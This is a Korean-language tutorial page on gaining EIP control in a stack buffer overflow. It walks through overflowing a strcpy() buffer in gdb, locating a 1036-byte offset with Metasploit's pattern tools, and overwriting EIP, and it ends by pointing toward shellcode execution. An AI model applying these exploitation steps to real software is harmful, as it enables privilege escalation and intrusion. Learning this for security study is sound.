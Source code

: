 # EIP 제어

버퍼 오버플로우에서 핵심은 **EIP(Instruction Pointer)를 우리가 원하는 값으로 덮는 것**이다. 이 과정을 시각적 흐름과 함께 단계별로 정리한다.

---

## 메모리 구조 이해

- 리눅스 메모리는 `.text`, `.data`, `.bss`, Heap, Stack 순으로 구성됨
- Stack은 높은 주소에서 낮은 주소로 성장하고, 우리가 조작할 수 있는 주요 공간임

![버퍼 오버플로우 구조 1](../images/buffer_overflow_2.png)

---

## strcpy()로 EIP까지 덮기

- 취약한 함수인 `strcpy()`는 길이 제한 없이 문자열을 복사해줌
- 이로 인해 스택을 초과하는 입력이 들어가면 EBP, EIP까지 침범할 수 있음
- 아래 실습에서는 1200개의 'U'(`\x55`)를 입력하여 EIP를 덮는 실험을 진행함

```bash
(gdb) run $(python -c "print '\x55' * 1200")
```

- 결과적으로 EBP와 EIP 모두 `0x55555555`로 덮임
- `info registers` 명령어로 확인 가능

```bash
(gdb) info registers
...
ebp            0x55555555
...
eip            0x55555555
```

![버퍼 오버플로우 구조 2](../images/buffer_overflow_3.png)

---

## 정확한 offset 찾기 (EIP까지 몇 바이트?)

- Metasploit의 `pattern_create.rb`로 고유한 패턴 문자열을 생성함.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
```

- 이 문자열을 입력해보면, EIP가 무작위 패턴 주소(`0x69423569`)로 덮인다.

```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3...'")
```

- 해당 값을 `pattern_offset.rb`로 역산하여 정확한 offset을 계산한다.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
```

- 즉, 정확히 1036 바이트를 입력하면 **EIP 바로 전까지 도달**할 수 있다.

![버퍼 오버플로우 구조 3](../images/buffer_overflow_4.png)

---

## EIP에 원하는 주소 덮기 테스트

- 이제 우리가 EIP를 완전히 제어할 수 있음을 검증해보자

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

- EIP가 정확히 `0x66666666`으로 덮이면 성공!

```bash
(gdb) info registers
...
eip            0x66666666
```

---

## 요약

- offset까지는 정확히 `"A" * 1036` 등으로 채우고, 그 다음 4바이트를 덮어서 EIP 제어
- 이후에는:

  - 스택의 쉘코드 위치를 파악해
  - EIP를 그 주소로 덮으면
  - 쉘코드가 실행됨 → **권한 상승 또는 명령 실행** 가능

> EIP를 덮기 위해선 정확한 offset 계산 → 테스트 → 원하는 주소 덮기 → 쉘코드 삽입 순서로 진행하면 된다. 이 과정을 완전히 이해하면 실전 BOF 공격의 기본이 완성된다!

